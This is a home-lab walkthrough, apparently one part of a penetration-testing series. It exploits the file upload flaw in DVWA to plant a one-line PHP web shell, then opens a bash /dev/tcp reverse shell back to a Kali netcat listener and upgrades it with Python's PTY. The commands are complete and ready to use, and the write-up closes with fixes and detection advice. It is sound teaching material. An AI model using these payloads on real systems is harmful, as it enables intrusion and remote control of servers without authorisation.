




# Part 2: Initial Access

*MITRE ATT&CK: T1190 Exploit Public-Facing Application, T1059 Command and Scripting Interpreter*

**Goal:** Exploit DVWA's file upload vulnerability to get a reverse shell on the Ubuntu host. Turn a web vulnerability into interactive system access.

---

## Why Not Metasploit?

Metasploit is a framework that automates exploitation. Powerful, but it abstracts away what is actually happening. Doing this manually means understanding the mechanics. In a real engagement you often cannot use Metasploit anyway: some clients prohibit it, some environments detect it. Knowing the manual approach makes you a better practitioner regardless of what tools are available. Understanding how something works manually also makes you a more effective user of its automated equivalent.

---

## The Vulnerability

DVWA's file upload page accepts user-supplied files with no server-side validation of file type or content. Two conditions have to be true simultaneously for this attack to work:

1. The application does not validate file uploads properly.
2. The server executes PHP in uploaded files.

Both are true here. A properly configured server would either reject the upload, store files outside the web root, or refuse to execute non-image content. All three mitigations are absent.

---

## Step 1: Web Shell Upload

Created a minimal PHP web shell on Kali:

```bash
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php
```

This is a one-line PHP web shell. `system()` is a PHP function that executes operating system commands. `$_GET["cmd"]` reads the value of a URL parameter called `cmd`. Browse to this file with `?cmd=whoami` and PHP runs `whoami` on the server and prints the output back to your browser. One line, full command execution.



At security level Low, DVWA performs no server-side validation. The `.php` extension was accepted without modification.



**Uploaded file path:**
```
http://192.168.100.20/dvwa/hackable/uploads/shell.php
```

---

## Step 2: Confirming Remote Code Execution

Triggered the shell by browsing to the upload path with a test command:

```
http://192.168.100.20/dvwa/hackable/uploads/shell.php?cmd=whoami
```

Server returned: `www-data`



`www-data` is the user Apache runs as. Command execution confirmed on the target server.

Additional verification:
- `?cmd=hostname` returned `ubuntudvwa`
- `?cmd=uname+-a` returned `Linux ubuntudvwa 6.8.0-106-generic`

The problem with the www-data shell: it is low-privilege. Apache's user account is deliberately restricted: it can read and write web files but cannot read sensitive system files, modify system configuration, or set up the SSH tunnel needed for lateral movement. Getting root is the goal of Part 3. But first, a better shell.

---

## Step 3: Reverse Shell

The browser-based web shell works but is clunky. Every command requires constructing a URL, there is no interactivity, and it breaks for commands that require input. The upgrade is a reverse shell: instead of the attacker connecting to the target, the target connects back to the attacker. This bypasses firewalls that block inbound connections since the connection originates from inside the target network.

**On Kali, started a listener:**

```bash
nc -lvnp 4444
```

`nc` is Netcat: a raw TCP tool sometimes called the Swiss Army knife of networking. `-l` means listen, `-v` verbose output, `-n` skip DNS resolution, `-p` specify port.

**Payload sent through the web shell via browser (URL-encoded):**

```bash
bash -c 'bash -i >& /dev/tcp/192.168.100.10/4444 0>&1'
```

`bash -i` opens an interactive bash shell. `>& /dev/tcp/192.168.100.10/4444` redirects its output to a TCP connection back to Kali on port 4444. `0>&1` redirects input through that same connection. The shell is no longer talking to a local keyboard and screen; it is talking to Kali over the network.

Netcat caught the connection. Upgraded to a proper interactive terminal using Python's PTY module:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

The raw reverse shell has no TTY (teletypewriter), which is the component that handles proper terminal behavior like arrow keys, tab completion, and Ctrl+C. Without it, certain commands break. `pty.spawn()` creates a pseudo-terminal that wraps the shell in something behaving like a real terminal session.



**Shell confirmed as:** `www-data@ubuntudvwa:/var/www/html/dvwa/hackable/uploads$`

---

## Key Takeaways

- **File upload without server-side validation is critical severity.** At Low security, the `.php` extension was accepted with no resistance. The fix is validating file content (magic bytes), not just the extension or Content-Type header.
- **www-data is intentionally unprivileged.** It can read web files and write to the uploads directory, but cannot read `/etc/shadow`, write system configs, or pivot elsewhere easily. RCE as www-data is a foothold, but there is more to do.
- **Web shells in upload directories are detectable.** Any `.php` file POSTed to an uploads path and then GETted with system command parameters is a textbook web shell pattern. Any WAF or SIEM rule set should cover it.

---

[Part 1: Recon](part1-recon.md) | Next: [Part 3: Privilege Escalation](part3-privesc.md)
